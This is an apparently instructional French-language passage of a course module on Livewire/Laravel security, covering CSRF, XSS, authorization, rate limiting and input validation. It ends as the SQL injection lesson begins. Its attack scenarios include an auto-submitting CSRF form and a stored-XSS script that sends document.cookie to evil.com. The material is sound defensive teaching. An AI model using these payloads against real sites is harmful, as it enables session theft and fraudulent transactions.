

# XII — Sécurité Livewire

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-duration="7-8 heures"
  data-lessons="9">
</div>

## Vue d'ensemble

!!! quote "Analogie pédagogique"
    _Imaginez un **système de sécurité bancaire multicouches** : votre argent (données utilisateur) est protégé par **multiples barrières de sécurité imbriquées**. **Porte d'entrée blindée** : agent vérifie badge officiel (CSRF token) - sans badge authentique, impossible entrer même si vous connaissez code PIN (session hijacking prevention). **Sas de décontamination** : scanner détecte produits dangereux (XSS sanitization) - tout contenu suspect (`<script>`, JavaScript) neutralisé automatiquement avant passage. **Contrôle d'accès par zones** : coffres haute sécurité accessibles uniquement personnel autorisé (authorization policies) - employé standard ne peut PAS accéder coffre directeur, système vérifie permissions granulaires. **Détecteur tentatives intrusion** : alarme sonne si 5 essais code PIN échoués en 1 minute (rate limiting) - attaque brute force bloquée instantanément, IP blacklistée temporairement. **Logs vidéo surveillance** : chaque action enregistrée avec timestamp, user, IP (audit trail) - traçabilité complète si fraude détectée. **Protection données sensibles** : numéros carte bancaire jamais affichés complets (mass assignment protection) - seuls 4 derniers chiffres visibles, données critiques jamais exposées properties publiques. **Sécurité Livewire fonctionne exactement pareil** : **CSRF tokens** (Laravel génère automatiquement, vérifie chaque requête), **XSS prevention** (Blade escape automatique, purification HTML), **Gates & Policies** (autorisation méthodes sensibles), **Rate limiting** (throttle requêtes composant), **Input validation** (sanitize AVANT traitement), **SQL injection** (Eloquent ORM paramétré), **Mass assignment** (fillable/guarded strict). C'est la **défense en profondeur professionnelle** : ZÉRO trust implicite, validation TOUTES entrées, autorisation TOUTES actions, logging TOUTES opérations critiques, principe moindre privilège systématique._

**La sécurité Livewire repose sur multiples couches de protection :**

- ✅ **CSRF protection** = Tokens anti-falsification requêtes
- ✅ **XSS prevention** = Échappement automatique et sanitization
- ✅ **Authorization** = Gates, Policies, middleware
- ✅ **Rate limiting** = Throttle attaques brute force
- ✅ **Input validation** = Sanitization stricte entrées
- ✅ **SQL injection** = ORM paramétré, prepared statements
- ✅ **Mass assignment** = Protection propriétés sensibles
- ✅ **Session security** = Hijacking prevention, secure cookies
- ✅ **Audit logging** = Traçabilité actions critiques

**Ce module couvre :**

1. CSRF protection (tokens, verification)
2. XSS prevention (escaping, purification)
3. Authorization (Gates, Policies, middleware)
4. Rate limiting (throttle, IP blocking)
5. Input validation et sanitization
6. SQL injection prevention
7. Mass assignment protection
8. Session security et cookies
9. Security best practices production

---

## Leçon 1 : CSRF Protection

### 1.1 CSRF Attack Explained

**CSRF (Cross-Site Request Forgery) = Attaque falsification requête**

**Scénario attaque CSRF :**

```
1. User authentifié sur bank.com (session active)
2. User visite site malveillant evil.com
3. evil.com contient formulaire caché :
   <form action="https://bank.com/transfer" method="POST">
     <input name="to" value="attacker-account">
     <input name="amount" value="10000">
   </form>
   <script>document.forms[0].submit();</script>
4. Formulaire soumis AUTOMATIQUEMENT avec cookies session user
5. bank.com reçoit requête légitime (cookies valides)
6. Transfert 10 000€ vers compte attaquant ✓
7. User n'a RIEN vu ni cliqué
```

**Protection CSRF = Token unique par session, vérifié serveur**

### 1.2 CSRF Protection Laravel/Livewire

**Laravel génère automatiquement token CSRF pour chaque session**

```blade
{{-- resources/views/layouts/app.blade.php --}}
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    
    {{-- CSRF Token meta tag (pour AJAX) --}}
    <meta name="csrf-token" content="{{ csrf_token() }}">
    
    <title>{{ config('app.name') }}</title>
    
    @vite(['resources/css/app.css', 'resources/js/app.js'])
    @livewireStyles
</head>
<body>
    {{ $slot }}
    
    @livewireScripts
</body>
</html>
```

**Livewire inclut automatiquement CSRF token dans TOUTES requêtes :**

```javascript
// Livewire JS (automatique)
window.Livewire.hook('request', ({ component, options }) => {
    // Token CSRF ajouté automatiquement headers
    options.headers = {
        'X-CSRF-TOKEN': document.querySelector('meta[name="csrf-token"]').content,
        ...options.headers
    };
});
```

**Vérification serveur automatique (middleware VerifyCsrfToken) :**

```php
<?php

namespace App\Http\Middleware;

use Illuminate\Foundation\Http\Middleware\VerifyCsrfToken as Middleware;

class VerifyCsrfToken extends Middleware
{
    /**
     * URIs exemptées vérification CSRF (webhooks externes, API)
     */
    protected $except = [
        'webhooks/*',
        'api/*', // API stateless (utilise tokens Bearer)
    ];
}
```

### 1.3 CSRF Diagramme Flow



### 1.4 CSRF Token Expiration Handling

**Si session expire, CSRF token invalide → erreur 419**

```blade
{{-- resources/views/livewire/secure-form.blade.php --}}
<div>
    <form wire:submit.prevent="save">
        <input type="text" wire:model="name">
        <button type="submit">Enregistrer</button>
    </form>

    {{-- Message erreur si CSRF expiré --}}
    @if(session('csrf_error'))
        <div class="alert-error">
            Votre session a expiré. Veuillez rafraîchir la page.
            <button onclick="location.reload()">Rafraîchir</button>
        </div>
    @endif
</div>
```

**Gestion JavaScript erreur 419 :**

```javascript
// resources/js/app.js

// Intercepter erreurs Livewire
document.addEventListener('livewire:response-error', (event) => {
    const { status } = event.detail.response;

    if (status === 419) {
        // CSRF token expiré
        if (confirm('Votre session a expiré. Rafraîchir la page ?')) {
            location.reload();
        }
    }
});

// Ou automatique sans confirmation
document.addEventListener('livewire:response-error', (event) => {
    if (event.detail.response.status === 419) {
        location.reload();
    }
});
```

### 1.5 CSRF pour API/Webhooks Externes

**Exempter webhooks externes (pas de session) :**

```php
<?php

namespace App\Http\Middleware;

use Illuminate\Foundation\Http\Middleware\VerifyCsrfToken as Middleware;

class VerifyCsrfToken extends Middleware
{
    protected $except = [
        // Webhooks Stripe (pas de session, signature vérifiée autrement)
        'webhooks/stripe',
        
        // Webhooks PayPal
        'webhooks/paypal',
        
        // API stateless (Bearer token)
        'api/*',
    ];
}
```

**Sécuriser webhooks sans CSRF (signature) :**

```php
<?php

namespace App\Http\Controllers;

use Illuminate\Http\Request;
use Illuminate\Support\Facades\Log;

class StripeWebhookController extends Controller
{
    public function handle(Request $request)
    {
        // Vérifier signature Stripe (remplace CSRF)
        $signature = $request->header('Stripe-Signature');
        $secret = config('services.stripe.webhook_secret');

        try {
            $event = \Stripe\Webhook::constructEvent(
                $request->getContent(),
                $signature,
                $secret
            );
        } catch (\Exception $e) {
            Log::warning('Webhook signature invalide', [
                'ip' => $request->ip(),
                'signature' => $signature,
            ]);
            
            return response()->json(['error' => 'Invalid signature'], 400);
        }

        // Traiter événement Stripe...
        
        return response()->json(['success' => true]);
    }
}
```

---

## Leçon 2 : XSS Prevention

### 2.1 XSS Attack Explained

**XSS (Cross-Site Scripting) = Injection code malveillant dans page**

**Scénario attaque XSS stockée (Stored XSS) :**

```
1. Site permet user poster commentaires
2. Attaquant poste commentaire :
   "Super article ! <script>
      fetch('https://evil.com/steal?cookies=' + document.cookie);
   </script>"
3. Commentaire stocké DATABASE tel quel (non sanitizé)
4. Page affiche commentaire : {{ $comment->content }}
5. JavaScript s'exécute dans navigateur TOUS visiteurs
6. Cookies session envoyés vers evil.com
7. Attaquant vole sessions, usurpe identité users
```

**Types XSS :**

| Type | Description | Exemple |
|------|-------------|---------|
| **Stored XSS** | Code stocké DB, exécuté pour tous users | Commentaires, profils |
| **Reflected XSS** | Code dans URL, exécuté immédiatement | `?search=<script>...</script>` |
| **DOM-based XSS** | Manipulation DOM côté client | `innerHTML = userInput` |

### 2.2 Blade Automatic Escaping

**Blade échappe automatiquement avec `{{ }}` :**

```blade
{{-- SAFE : Échappement automatique --}}
<p>{{ $userName }}</p>

{{-- Si $userName = "<script>alert('XSS')</script>" --}}
{{-- Affiche : &lt;script&gt;alert('XSS')&lt;/script&gt; --}}
{{-- Script ne s'exécute PAS ✓ --}}

{{-- DANGEROUS : Pas d'échappement --}}
<p>{!! $userName !!}</p>

{{-- Si $userName = "<script>alert('XSS')</script>" --}}
{{-- Script S'EXÉCUTE ✗ --}}
```

**Règle d'or : TOUJOURS utiliser `{{ }}`, JAMAIS `{!! !!}` pour contenu user**

### 2.3 Purification HTML (Contenu Riche)

**Si vous DEVEZ permettre HTML (éditeur WYSIWYG), purifier strictement :**

```bash
# Installer HTML Purifier
composer require ezyang/htmlpurifier
```

**Créer helper purification :**

```php
<?php

namespace App\Services;

use HTMLPurifier;
use HTMLPurifier_Config;

class HtmlSanitizer
{
    protected HTMLPurifier $purifier;

    public function __construct()
    {
        $config = HTMLPurifier_Config::createDefault();
        
        // Configuration stricte
        $config->set('HTML.Allowed', 'p,b,strong,i,em,u,a[href],ul,ol,li,br,span[style]');
        $config->set('CSS.AllowedProperties', 'color,background-color,font-weight');
        $config->set('AutoFormat.RemoveEmpty', true);
        $config->set('AutoFormat.RemoveEmpty.RemoveNbsp', true);
        
        // Interdire JavaScript STRICT
        $config->set('HTML.ForbiddenAttributes', 'onclick,onload,onerror,onmouseover');
        
        $this->purifier = new HTMLPurifier($config);
    }

    public function clean(string $html): string
    {
        return $this->purifier->purify($html);
    }
}
```

**Utilisation dans Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Services\HtmlSanitizer;

class ArticleEditor extends Component
{
    public string $content = '';

    public function save(HtmlSanitizer $sanitizer): void
    {
        $this->validate([
            'content' => 'required|min:10',
        ]);

        // Purifier HTML AVANT stockage DB
        $cleanContent = $sanitizer->clean($this->content);

        Article::create([
            'content' => $cleanContent,
            'user_id' => auth()->id(),
        ]);

        session()->flash('message', 'Article enregistré !');
    }

    public function render()
    {
        return view('livewire.article-editor');
    }
}
```

**Affichage HTML purifié :**

```blade
{{-- Afficher HTML purifié (SAFE car déjà nettoyé) --}}
<div class="article-content">
    {!! $article->content !!}
</div>

{{-- Contenu purifié ne contient QUE balises autorisées --}}
{{-- <script>, <iframe>, onclick, etc. SUPPRIMÉS --}}
```

### 2.4 Content Security Policy (CSP)

**CSP = Headers HTTP bloquant scripts inline non autorisés**

**Configuration middleware CSP :**

```php
<?php

namespace App\Http\Middleware;

use Closure;
use Illuminate\Http\Request;

class ContentSecurityPolicy
{
    public function handle(Request $request, Closure $next)
    {
        $response = $next($request);

        // Policy stricte
        $csp = [
            "default-src 'self'",
            "script-src 'self' 'unsafe-inline' 'unsafe-eval' https://cdn.jsdelivr.net", // Livewire nécessite unsafe-inline/eval
            "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com",
            "font-src 'self' https://fonts.gstatic.com",
            "img-src 'self' data: https:",
            "connect-src 'self'",
            "frame-ancestors 'none'", // Bloquer iframes (clickjacking)
        ];

        $response->headers->set(
            'Content-Security-Policy',
            implode('; ', $csp)
        );

        return $response;
    }
}
```

**Enregistrer middleware :**

```php
<?php

// app/Http/Kernel.php

protected $middlewareGroups = [
    'web' => [
        // ...
        \App\Http\Middleware\ContentSecurityPolicy::class,
    ],
];
```

### 2.5 Échappement Contexte JavaScript

**DANGER : Injection JavaScript via propriétés Livewire :**

```blade
{{-- VULNERABLE --}}
<script>
    let userName = "{{ $userName }}";
    console.log(userName);
</script>

{{-- Si $userName = '"; alert("XSS"); //' --}}
{{-- Résultat : let userName = ""; alert("XSS"); //"; --}}
{{-- Script injecté s'exécute ✗ --}}
```

**SOLUTION : JSON encoding :**

```blade
{{-- SAFE --}}
<script>
    let userName = @json($userName);
    console.log(userName);
</script>

{{-- @json échappe correctement pour contexte JS --}}
{{-- Si $userName = '"; alert("XSS"); //' --}}
{{-- Résultat : let userName = "\"; alert(\"XSS\"); //"; --}}
{{-- String échappée, script ne s'exécute PAS ✓ --}}
```

**Passer données PHP → Alpine.js :**

```blade
<div x-data="{ 
    user: @js($user),
    settings: @js($settings) 
}">
    <span x-text="user.name"></span>
</div>

{{-- @js() = alias @json() pour Alpine.js --}}
```

---

## Leçon 3 : Authorization (Gates & Policies)

### 3.1 Authorization Basique

**Vérifier autorisation dans méthode Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Models\Post;

class EditPost extends Component
{
    public Post $post;

    public function mount(int $postId): void
    {
        $this->post = Post::findOrFail($postId);

        // Vérifier autorisation
        $this->authorize('update', $this->post);
        
        // Si non autorisé → Exception 403 Forbidden
    }

    public function save(): void
    {
        // Re-vérifier avant action sensible
        $this->authorize('update', $this->post);

        $this->validate([
            'post.title' => 'required|min:3',
            'post.content' => 'required|min:10',
        ]);

        $this->post->save();

        session()->flash('message', 'Post mis à jour !');
    }

    public function delete(): void
    {
        // Autorisation différente pour delete
        $this->authorize('delete', $this->post);

        $this->post->delete();

        return redirect()->route('posts.index');
    }

    public function render()
    {
        return view('livewire.edit-post');
    }
}
```

### 3.2 Gates Definition

**Définir Gates dans `AuthServiceProvider` :**

```php
<?php

namespace App\Providers;

use Illuminate\Foundation\Support\Providers\AuthServiceProvider as ServiceProvider;
use Illuminate\Support\Facades\Gate;
use App\Models\User;
use App\Models\Post;

class AuthServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        $this->registerPolicies();

        // Gate simple : admin peut tout faire
        Gate::define('admin-access', function (User $user) {
            return $user->role === 'admin';
        });

        // Gate avec paramètres
        Gate::define('edit-post', function (User $user, Post $post) {
            // User peut éditer SI :
            // - Il est auteur du post OU
            // - Il est admin
            return $user->id === $post->user_id || $user->role === 'admin';
        });

        // Gate pour role spécifique
        Gate::define('manage-users', function (User $user) {
            return in_array($user->role, ['admin', 'manager']);
        });

        // Gate before : admin bypass TOUTES vérifications
        Gate::before(function (User $user, string $ability) {
            if ($user->role === 'super-admin') {
                return true; // Autorise TOUT
            }
        });
    }
}
```

**Utilisation Gates dans Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\Gate;

class AdminPanel extends Component
{
    public function mount(): void
    {
        // Vérifier gate
        if (!Gate::allows('admin-access')) {
            abort(403, 'Accès refusé');
        }
    }

    public function deleteUser(int $userId): void
    {
        // Vérifier gate avant action
        if (!Gate::allows('manage-users')) {
            session()->flash('error', 'Non autorisé');
            return;
        }

        User::destroy($userId);
    }

    public function render()
    {
        return view('livewire.admin-panel');
    }
}
```

### 3.3 Policies (Autorisation Modèle-Centrée)

**Créer Policy :**

```bash
php artisan make:policy PostPolicy --model=Post
```

```php
<?php

namespace App\Policies;

use App\Models\Post;
use App\Models\User;

class PostPolicy
{
    /**
     * Voir n'importe quel post (index)
     */
    public function viewAny(User $user): bool
    {
        return true; // Tous users peuvent voir liste
    }

    /**
     * Voir post spécifique
     */
    public function view(?User $user, Post $post): bool
    {
        // Published posts = publics
        if ($post->published) {
            return true;
        }

        // Draft posts = seulement auteur
        return $user && $user->id === $post->user_id;
    }

    /**
     * Créer nouveau post
     */
    public function create(User $user): bool
    {
        // Tous users authentifiés peuvent créer
        return true;
    }

    /**
     * Éditer post existant
     */
    public function update(User $user, Post $post): bool
    {
        // Seulement auteur OU admin
        return $user->id === $post->user_id || $user->role === 'admin';
    }

    /**
     * Supprimer post
     */
    public function delete(User $user, Post $post): bool
    {
        // Seulement auteur (admin ne peut PAS delete)
        return $user->id === $post->user_id;
    }

    /**
     * Restaurer post soft-deleted
     */
    public function restore(User $user, Post $post): bool
    {
        return $user->role === 'admin';
    }

    /**
     * Supprimer définitivement (force delete)
     */
    public function forceDelete(User $user, Post $post): bool
    {
        return $user->role === 'super-admin';
    }
}
```

**Enregistrer Policy :**

```php
<?php

// app/Providers/AuthServiceProvider.php

protected $policies = [
    Post::class => PostPolicy::class,
    User::class => UserPolicy::class,
    Order::class => OrderPolicy::class,
];
```

**Utilisation Policy dans Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Models\Post;

class PostManager extends Component
{
    public Post $post;

    public function mount(int $postId): void
    {
        $this->post = Post::findOrFail($postId);

        // Policy "view" vérifiée automatiquement
        $this->authorize('view', $this->post);
    }

    public function publish(): void
    {
        // Policy custom
        $this->authorize('publish', $this->post);

        $this->post->update(['published' => true]);

        session()->flash('message', 'Post publié !');
    }

    public function render()
    {
        return view('livewire.post-manager');
    }
}
```

### 3.4 Affichage Conditionnel selon Autorisation

```blade
<div>
    <h1>{{ $post->title }}</h1>

    <div class="actions">
        {{-- Afficher bouton SEULEMENT si autorisé --}}
        @can('update', $post)
            <button wire:click="edit">Éditer</button>
        @endcan

        @can('delete', $post)
            <button wire:click="delete" onclick="return confirm('Supprimer ?')">
                Supprimer
            </button>
        @endcan

        @cannot('update', $post)
            <p class="text-gray-500">Vous ne pouvez pas éditer ce post.</p>
        @endcannot
    </div>

    {{-- Gate check --}}
    @can('admin-access')
        <div class="admin-tools">
            <button wire:click="forceDelete">Force Delete (Admin)</button>
        </div>
    @endcan
</div>
```

### 3.5 Middleware Authorization

**Protéger routes entières :**

```php
<?php

// routes/web.php

use App\Livewire\AdminDashboard;
use App\Livewire\UserProfile;

// Route nécessitant authentification
Route::middleware('auth')->group(function () {
    
    Route::get('/profile', UserProfile::class);
    
    // Route nécessitant role admin
    Route::middleware('can:admin-access')->group(function () {
        Route::get('/admin', AdminDashboard::class);
    });
});
```

**Middleware custom vérifier role :**

```php
<?php

namespace App\Http\Middleware;

use Closure;
use Illuminate\Http\Request;

class CheckRole
{
    public function handle(Request $request, Closure $next, string $role)
    {
        if (!$request->user() || $request->user()->role !== $role) {
            abort(403, 'Accès interdit');
        }

        return $next($request);
    }
}
```

```php
<?php

// routes/web.php

Route::middleware(['auth', 'role:admin'])->group(function () {
    Route::get('/admin', AdminDashboard::class);
});
```

---

## Leçon 4 : Rate Limiting

### 4.1 Rate Limiting Basique

**Limiter requêtes composant Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\RateLimiter;

class ContactForm extends Component
{
    public string $name = '';
    public string $email = '';
    public string $message = '';

    public function submit(): void
    {
        // Clé rate limit unique par IP
        $key = 'contact-form:' . request()->ip();

        // Limiter : 3 soumissions par minute
        if (RateLimiter::tooManyAttempts($key, 3)) {
            $seconds = RateLimiter::availableIn($key);
            
            session()->flash('error', "Trop de tentatives. Réessayez dans {$seconds} secondes.");
            return;
        }

        // Incrémenter compteur (expire 60 secondes)
        RateLimiter::hit($key, 60);

        // Valider et traiter...
        $this->validate([
            'name' => 'required|min:3',
            'email' => 'required|email',
            'message' => 'required|min:10',
        ]);

        // Envoyer email...

        session()->flash('message', 'Message envoyé !');
        $this->reset(['name', 'email', 'message']);
    }

    public function render()
    {
        return view('livewire.contact-form');
    }
}
```

### 4.2 Rate Limiting par User

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\RateLimiter;

class ApiRequest extends Component
{
    public function makeRequest(): void
    {
        // Clé par user authentifié
        $key = 'api-request:' . auth()->id();

        // Limiter : 100 requêtes par heure
        if (RateLimiter::tooManyAttempts($key, 100)) {
            $minutes = ceil(RateLimiter::availableIn($key) / 60);
            
            session()->flash('error', "Limite API atteinte. Réessayez dans {$minutes} minutes.");
            return;
        }

        RateLimiter::hit($key, 3600); // 1 heure

        // Effectuer requête API...
    }

    public function render()
    {
        return view('livewire.api-request');
    }
}
```

### 4.3 Rate Limiting Multiple Niveaux

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\RateLimiter;

class Login extends Component
{
    public string $email = '';
    public string $password = '';

    public function login(): void
    {
        $ipKey = 'login-ip:' . request()->ip();
        $emailKey = 'login-email:' . $this->email;

        // Limite 1 : Max 5 tentatives par IP par minute
        if (RateLimiter::tooManyAttempts($ipKey, 5)) {
            session()->flash('error', 'Trop de tentatives depuis cette IP. Attendez 1 minute.');
            return;
        }

        // Limite 2 : Max 3 tentatives par email par 10 minutes
        if (RateLimiter::tooManyAttempts($emailKey, 3)) {
            $minutes = ceil(RateLimiter::availableIn($emailKey) / 60);
            session()->flash('error', "Email bloqué temporairement ({$minutes} min).");
            return;
        }

        // Tenter login
        if (!auth()->attempt(['email' => $this->email, 'password' => $this->password])) {
            // Incrémenter compteurs SI échec
            RateLimiter::hit($ipKey, 60);      // 1 minute
            RateLimiter::hit($emailKey, 600);  // 10 minutes

            session()->flash('error', 'Identifiants incorrects.');
            return;
        }

        // Login réussi : clear rate limits
        RateLimiter::clear($ipKey);
        RateLimiter::clear($emailKey);

        return redirect()->route('dashboard');
    }

    public function render()
    {
        return view('livewire.login');
    }
}
```

### 4.4 Rate Limiting avec Custom Response

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\RateLimiter;

class CommentForm extends Component
{
    public string $content = '';

    public function submit(): void
    {
        $key = 'comment:' . auth()->id();

        // Utiliser response() pour granularité
        $executed = RateLimiter::attempt(
            $key,
            $maxAttempts = 5,        // Max 5 commentaires
            function () {
                // Code exécuté SI dans limite
                $this->validate(['content' => 'required|min:3|max:500']);

                Comment::create([
                    'content' => $this->content,
                    'user_id' => auth()->id(),
                ]);

                session()->flash('message', 'Commentaire posté !');
                $this->reset('content');
            },
            $decaySeconds = 60       // Par minute
        );

        if (!$executed) {
            $seconds = RateLimiter::availableIn($key);
            
            session()->flash('error', "Limite atteinte. Attendez {$seconds}s avant commenter.");
        }
    }

    public function render()
    {
        return view('livewire.comment-form');
    }
}
```

### 4.5 Afficher Rate Limit Remaining

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Illuminate\Support\Facades\RateLimiter;

class ApiDashboard extends Component
{
    public function getRateLimitInfoProperty(): array
    {
        $key = 'api-request:' . auth()->id();
        $maxAttempts = 100;

        return [
            'remaining' => $maxAttempts - RateLimiter::attempts($key),
            'resetIn' => RateLimiter::availableIn($key),
        ];
    }

    public function render()
    {
        return view('livewire.api-dashboard');
    }
}
```

```blade
<div>
    <div class="rate-limit-info">
        <p>Requêtes API restantes : {{ $this->rateLimitInfo['remaining'] }} / 100</p>
        
        @if($this->rateLimitInfo['remaining'] === 0)
            <p class="text-red-600">
                Limite atteinte. Reset dans {{ $this->rateLimitInfo['resetIn'] }}s
            </p>
        @endif
    </div>

    <button wire:click="makeRequest">Faire requête API</button>
</div>
```

---

## Leçon 5 : Input Validation et Sanitization

### 5.1 Validation Stricte Entrées

**TOUJOURS valider TOUTES entrées utilisateur :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class UserRegistration extends Component
{
    public string $name = '';
    public string $email = '';
    public string $password = '';
    public string $website = '';
    public int $age = 0;

    protected $rules = [
        // String : whitelist caractères acceptés
        'name' => [
            'required',
            'string',
            'min:3',
            'max:50',
            'regex:/^[a-zA-Z\s\-\']+$/', // Seulement lettres, espaces, tirets, apostrophes
        ],

        // Email : validation stricte
        'email' => [
            'required',
            'email:rfc,dns',    // Vérifier format ET DNS MX record
            'unique:users,email',
            'max:255',
        ],

        // Password : complexité
        'password' => [
            'required',
            'string',
            'min:12',
            'regex:/^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]+$/',
            // Au moins : 1 minuscule, 1 majuscule, 1 chiffre, 1 caractère spécial
        ],

        // URL : format et protocoles autorisés
        'website' => [
            'nullable',
            'url',
            'regex:/^https?:\/\//', // Seulement HTTP/HTTPS
        ],

        // Numeric : bornes strictes
        'age' => [
            'required',
            'integer',
            'min:18',
            'max:120',
        ],
    ];

    protected $messages = [
        'name.regex' => 'Le nom ne peut contenir que des lettres, espaces, tirets et apostrophes.',
        'email.email' => 'Format email invalide.',
        'password.regex' => 'Le mot de passe doit contenir au moins 1 majuscule, 1 minuscule, 1 chiffre et 1 caractère spécial.',
        'website.regex' => 'L\'URL doit commencer par http:// ou https://',
    ];

    public function register(): void
    {
        $validated = $this->validate();

        // Sanitization additionnelle
        $validated['name'] = strip_tags($validated['name']);
        $validated['email'] = filter_var($validated['email'], FILTER_SANITIZE_EMAIL);

        // Créer user...
        
        session()->flash('message', 'Inscription réussie !');
    }

    public function render()
    {
        return view('livewire.user-registration');
    }
}
```

### 5.2 Sanitization Input

**Helper sanitization réutilisable :**

```php
<?php

namespace App\Services;

class InputSanitizer
{
    /**
     * Nettoyer string (remove tags, trim, normalize)
     */
    public static function cleanString(string $input): string
    {
        $input = strip_tags($input);           // Supprimer HTML/PHP tags
        $input = trim($input);                 // Supprimer espaces début/fin
        $input = preg_replace('/\s+/', ' ', $input); // Normaliser espaces multiples
        
        return $input;
    }

    /**
     * Nettoyer email
     */
    public static function cleanEmail(string $email): string
    {
        $email = strtolower(trim($email));
        $email = filter_var($email, FILTER_SANITIZE_EMAIL);
        
        return $email;
    }

    /**
     * Nettoyer URL
     */
    public static function cleanUrl(string $url): string
    {
        $url = trim($url);
        $url = filter_var($url, FILTER_SANITIZE_URL);
        
        // Forcer HTTPS si HTTP
        $url = preg_replace('/^http:/', 'https:', $url);
        
        return $url;
    }

    /**
     * Nettoyer numéro téléphone (garder seulement chiffres)
     */
    public static function cleanPhone(string $phone): string
    {
        return preg_replace('/[^0-9+]/', '', $phone);
    }

    /**
     * Nettoyer HTML (whitelist tags autorisés)
     */
    public static function cleanHtml(string $html): string
    {
        $allowed = '<p><b><strong><i><em><u><a><ul><ol><li><br>';
        
        return strip_tags($html, $allowed);
    }
}
```

**Utilisation dans Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Services\InputSanitizer;

class ContactForm extends Component
{
    public string $name = '';
    public string $email = '';
    public string $phone = '';
    public string $message = '';

    public function submit(): void
    {
        $this->validate([
            'name' => 'required|min:3',
            'email' => 'required|email',
            'phone' => 'required',
            'message' => 'required|min:10',
        ]);

        // Sanitize TOUTES entrées avant traitement
        $data = [
            'name' => InputSanitizer::cleanString($this->name),
            'email' => InputSanitizer::cleanEmail($this->email),
            'phone' => InputSanitizer::cleanPhone($this->phone),
            'message' => InputSanitizer::cleanString($this->message),
        ];

        // Traiter données propres...
        
        session()->flash('message', 'Message envoyé !');
        $this->reset();
    }

    public function render()
    {
        return view('livewire.contact-form');
    }
}
```

### 5.3 Validation Fichiers Stricts

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use Livewire\WithFileUploads;

class DocumentUpload extends Component
{
    use WithFileUploads;

    public $document;

    protected $rules = [
        'document' => [
            'required',
            'file',
            'mimes:pdf,doc,docx',        // Whitelist extensions
            'mimetypes:application/pdf,application/msword,application/vnd.openxmlformats-officedocument.wordprocessingml.document',
            'max:10240',                 // 10MB max
            
            // Custom rule : vérifier contenu réel (pas seulement extension)
            function ($attribute, $value, $fail) {
                $finfo = finfo_open(FILEINFO_MIME_TYPE);
                $mimeType = finfo_file($finfo, $value->getRealPath());
                finfo_close($finfo);

                $allowedMimes = [
                    'application/pdf',
                    'application/msword',
                    'application/vnd.openxmlformats-officedocument.wordprocessingml.document',
                ];

                if (!in_array($mimeType, $allowedMimes)) {
                    $fail('Type de fichier non autorisé (détection contenu).');
                }
            },
            
            // Vérifier pas de code malveillant
            function ($attribute, $value, $fail) {
                $content = file_get_contents($value->getRealPath(), false, null, 0, 1024);
                
                if (strpos($content, '<?php') !== false || strpos($content, '<?=') !== false) {
                    $fail('Fichier contient du code non autorisé.');
                }
            },
        ],
    ];

    public function save(): void
    {
        $this->validate();

        // Nom fichier sécurisé (hash)
        $filename = hash('sha256', $this->document->getClientOriginalName() . time())
                    . '.'
                    . $this->document->getClientOriginalExtension();

        $path = $this->document->storeAs('documents', $filename, 'private');

        session()->flash('message', 'Document uploadé !');
        $this->reset('document');
    }

    public function render()
    {
        return view('livewire.document-upload');
    }
}
```

---

## Leçon 6 : SQL Injection Prevention

### 6.1 SQL Injection Attack Explained

**SQL Injection = Injection code SQL malveillant dans requête**

